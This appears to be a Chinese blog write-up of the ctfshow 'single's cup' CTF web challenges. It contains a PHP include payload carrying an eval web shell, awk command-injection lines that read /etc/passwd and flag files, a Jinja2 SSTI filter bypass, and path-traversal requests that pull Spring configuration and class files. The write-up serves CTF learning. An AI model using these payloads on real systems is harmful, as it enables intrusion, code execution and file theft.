+++
title = "ctfshow单身杯"
slug = "ctfshow-singles-cup"
description = "刷"
date = "2025-01-10T10:54:09"
lastmod = "2025-01-10T10:54:09"
image = ""
license = ""
categories = ["ctfshow"]
tags = ["php", "ssti", "Java"]
+++

## web签到

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

$file = $_POST['file'];

if(isset($file)){
    if(strrev($file)==$file){
        include $file;
    }

}
```

`strrev`函数用来进行字符串的反转，这里是个文件包含可以用伪协议绕过，而且是弱比较

```php
<?php
echo strrev("?>phpphp?>");
```

类似的写出payload

```
https://1bed9667-adbd-4f21-a6df-1a8a7c0833dc.challenge.ctf.show/?1=system("tac /f1agaaa");

file=data://text/plain,<?php eval($_GET[1]);?>>?;)]1[TEG_$(lave php?<,nialp/txet//:atad
```

## easyPHP

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

$cmd = $_POST['cmd'];
$param = $_POST['param'];

if(isset($cmd) && isset($param)){
    $cmd=escapeshellcmd(substr($cmd,0,3))." ".escapeshellarg($param)." ".__FILE__;
    shell_exec($cmd);
}
```

还是一个RCE，已过看到了老搭档了，而且很明显这个格式就是一个shell，我们可以在服务器终端进行测试

```
awk 'BEGIN{system("ls /")}'
```

不过`shell_exec`是无回显的，这里写个文件带出来即可

```
cmd=awk&param=BEGIN{system("cp /etc/passwd a")}

cmd=awk&param=BEGIN{system("ls / > a")}
cmd=awk&param=BEGIN{system("tac /f1agaaa > a")}
```

## 姻缘测试

源码里面可以看到`/source`路由，然后我们看看

```python
def is_hacker(string):
	"""整那些个花里胡哨的waf有啥用，还不如这一个，直接杜绝SSTI"""
	if "{" in string and "}" in string :
		return True
	else:
		return False
```

要绕过waf这里，首先我们是知道参数了，并且知道如何攻击，测试了很久，也不知道这后端怎么写的，只有`'`能够正常渲染，

```
https://1cb874d3-6cb0-4b55-a0ab-03af03a8e550.challenge.ctf.show/result?boy_name={{'&girl_name='.__class__.__base__.__subclasses__()[82].__init__.__globals__.__import__('os').popen('tac /f*').read()}}
```

## blog

注册登录之后发现描述:



并且发现源码里面的头像路径



正常思路就是想办法给报错了，回到登录界面给加入`'`或者是`"`



找到了使用的框架`Hibernate`，而这个框架有漏洞就是可以IOC注入，我也没太懂，不过就类似于参数覆盖，





成功了，再一看头像路径就变成了



可以试试路径穿越的文件读取漏洞，不过要调整一下bp的参数设置，不然是不能抓去图片的包的



成功之后就开始文件读取

```http
GET /avatar/file/../web.xml HTTP/1.1
Host: 7e2a881d-9c98-488f-9d7c-1d08ca1ba8ab.challenge.ctf.show
Cookie: JSESSIONID=C25ED3AAA09B0BC2FD067F01C10C4178
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close


```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <context-param>
        <param-name>contextConfigLocation</param-name>
        <param-value>/WEB-INF/applicationContext.xml</param-value>
    </context-param>
    <listener>
        <listener-class>org.springframework.web.context.ContextLoaderListener</listener-class>
    </listener>
    <filter>
        <filter-name>encoding</filter-name>
        <filter-class>org.springframework.web.filter.CharacterEncodingFilter</filter-class>
        <init-param>
            <param-name>encoding</param-name>
            <param-value>utf-8</param-value>
        </init-param>

    </filter>
    <filter-mapping>
        <filter-name>encoding</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
    <servlet>
        <servlet-name>dispatcher</servlet-name>
        <servlet-class>org.springframework.web.servlet.DispatcherServlet</servlet-class>
        <load-on-startup>1</load-on-startup>
    </servlet>
    <servlet-mapping>
        <servlet-name>dispatcher</servlet-name>
        <url-pattern>/*</url-pattern>
    </servlet-mapping>
</web-app>
```

可以继续读`Spring`框架的配置文件

```http
GET /avatar/file/../applicationContext.xml HTTP/1.1
Host: 7e2a881d-9c98-488f-9d7c-1d08ca1ba8ab.challenge.ctf.show
Cookie: JSESSIONID=C25ED3AAA09B0BC2FD067F01C10C4178
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close


```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:context="http://www.springframework.org/schema/context"
       xmlns:mvc="http://www.springframework.org/schema/mvc"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
       http://www.springframework.org/schema/beans/spring-beans.xsd
       http://www.springframework.org/schema/context
       https://www.springframework.org/schema/context/spring-context.xsd
       http://www.springframework.org/schema/mvc
       https://www.springframework.org/schema/mvc/spring-mvc.xsd">


    <!--扫描组件-->
    <context:component-scan base-package="com.ctfshow.*"/>


    <bean id="viewResolver" class="org.thymeleaf.spring5.view.ThymeleafViewResolver">
        <property name="order" value="1"/>
        <property name="characterEncoding" value="UTF-8"/>
        <property name="templateEngine">
            <bean class="org.thymeleaf.spring5.SpringTemplateEngine">
                <property name="templateResolver">
                    <bean class="org.thymeleaf.spring5.templateresolver.SpringResourceTemplateResolver">
                        <!--视图前缀-->
                        <property name="prefix" value="/WEB-INF/templates/"/>
                        <!--视图后缀-->
                        <property name="suffix" value=".html"/>
                        <property name="templateMode" value="HTML5"/>
                        <property name="characterEncoding" value="UTF-8"/>
                    </bean>
                </property>
            </bean>
        </property>
    </bean>
    <mvc:annotation-driven/>
    <mvc:resources mapping="/static/**" location="/WEB-INF/static/"/>
    <mvc:interceptors>
        <mvc:interceptor>
            <mvc:mapping path="/page/{\d+}"/>
            <bean class="com.ctfshow.Interceptor.ArticleInterceptor"/>
        </mvc:interceptor>
        <mvc:interceptor>
            <mvc:mapping path="/**"/>
            <mvc:exclude-mapping path="/"/>
            <mvc:exclude-mapping path="/admin/**"/>
            <mvc:exclude-mapping path="/page/"/>
            <mvc:exclude-mapping path="/avatar/**"/>
            <mvc:exclude-mapping path="/page/*"/>
            <mvc:exclude-mapping path="/user/login"/>
            <mvc:exclude-mapping path="/user/register"/>
            <mvc:exclude-mapping path="/static/**"/>
            <bean class="com.ctfshow.Interceptor.LoginInterceptor"/>
        </mvc:interceptor>

    </mvc:interceptors>
</beans>
```

看到有两个拦截器在后面(怎么看出来的，问AI)

```
com.ctfshow.Interceptor.LoginInterceptor
com.ctfshow.Interceptor.ArticleInterceptor
```

读取源码

```
/avatar/file/../classes/com/ctfshow/Interceptor/ArticleInterceptor.class
/avatar/file/../classes/com/ctfshow/Interceptor/LoginInterceptor.class
```

然后我一直是拿不到源码，放在jadx里面是报错的，这里其实问题就是class文件结构



还有就是存文件的时候最好是从hex存





放到厨子里面直接保存为`class`文件，然后放在010里面



这四位是多的，给删掉然后就得到了

```java
/*LoginInterceptor*/
package com.ctfshow.Interceptor;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.ModelAndView;

/* loaded from: LoginInterceptor.class */
public class LoginInterceptor implements HandlerInterceptor {
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        HttpSession session = request.getSession();
        if (null != session.getAttribute("isLogin")) {
            return true;
        }
        response.sendRedirect("/user/login");
        return false;
    }

    public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
        super.postHandle(request, response, handler, modelAndView);
    }

    public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
        super.afterCompletion(request, response, handler, ex);
    }
}
```

```java
/*ArticleInterceptor*/
package com.ctfshow.Interceptor;

import com.ctfshow.dao.ArticleEntity;
import com.ctfshow.model.ArticleModel;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import org.springframework.web.servlet.HandlerInterceptor;

/* loaded from: ArticleInterceptor.class */
public class ArticleInterceptor implements HandlerInterceptor {
    public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
        HttpSession session = request.getSession();
        ArticleEntity articleEntity = (ArticleEntity) session.getAttribute("page");
        articleEntity.setGood(Integer.valueOf(articleEntity.getGood().intValue() + 1));
        ArticleModel articleModel = new ArticleModel();
        articleModel.saveArticle(articleEntity);
        super.afterCompletion(request, response, handler, ex);
    }
}
```

有这些那肯定有控制器的

```
/avatar/file/../classes/com/ctfshow/controller/ArticleController.class
/avatar/file/../classes/com/ctfshow/controller/LoginController.class
```

```java
/*ArticleController.class*/
package com.ctfshow.controller;

import com.ctfshow.dao.ArticleEntity;
import com.ctfshow.dao.UserEntity;
import com.ctfshow.model.ArticleModel;
import java.sql.Timestamp;
import java.util.List;
import javax.servlet.http.HttpSession;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PathVariable;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.servlet.ModelAndView;

/* loaded from: ArticleController.class */
public class ArticleController {
    @GetMapping({"/{id}"})
    public String page(@PathVariable Integer id, HttpSession session, Model model) {
        ArticleModel articleModel = new ArticleModel();
        ArticleEntity page = articleModel.getArticleById(id);
        if (page == null) {
            model.addAttribute("message", "错误：已经没有内容了");
            return "pageMessage";
        }
        model.addAttribute("page", page);
        session.setAttribute("page", page);
        model.addAttribute("isLogin", session.getAttribute("isLogin"));
        return "page";
    }

    @GetMapping({"/"})
    public String pageList(HttpSession session, Model model) {
        ArticleModel articleModel = new ArticleModel();
        List<ArticleEntity> pages = articleModel.getAllArticle();
        model.addAttribute("pages", pages);
        model.addAttribute("isLogin", session.getAttribute("isLogin"));
        return "pageList";
    }

    @GetMapping({"/user/add"})
    public String pageAdd(HttpSession session, Model model) {
        model.addAttribute("user", (UserEntity) session.getAttribute("user"));
        model.addAttribute("isLogin", session.getAttribute("isLogin"));
        return "pageAdd";
    }

    @PostMapping({"/user/add"})
    @ResponseBody
    public ModelAndView pageAdd(@RequestParam String title, @RequestParam String content, HttpSession session, Model model) {
        ArticleEntity articleEntity = new ArticleEntity();
        ArticleModel articleModel = new ArticleModel();
        UserEntity user = (UserEntity) session.getAttribute("user");
        if (null != title && null != content) {
            articleEntity.setTitle(title);
            articleEntity.setAuthor(user.getUsername());
            articleEntity.setGood(0);
            articleEntity.setCreateDate(new Timestamp(System.currentTimeMillis()));
            articleEntity.setContent(content);
            articleModel.saveArticle(articleEntity);
            model.addAttribute("message", "发布成功!");
            model.addAttribute("retUrl", "/page/");
        } else {
            model.addAttribute("message", "发布失败，标题或内容不能为空");
            model.addAttribute("retUrl", "/page/user/add");
        }
        ModelAndView modelAndView = new ModelAndView("pageMessage", "pageMessage", model);
        return modelAndView;
    }
}
```

```java
/*LoginController.class*/
package com.ctfshow.controller;

import com.ctfshow.dao.UserEntity;
import com.ctfshow.model.UserModel;
import java.util.UUID;
import javax.servlet.http.HttpSession;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.servlet.ModelAndView;

@RequestMapping(path = {"/user"})
@Controller
/* loaded from: LoginController.class */
public class LoginController {
    @GetMapping({"/login"})
    public String index(HttpSession session, Model model) {
        return null != session.getAttribute("isLogin") ? "redirect:/page/" : "loginPage";
    }

    @PostMapping({"/login"})
    public String doLogin(UserEntity user, HttpSession session, Model model) {
        UserModel userModel = new UserModel();
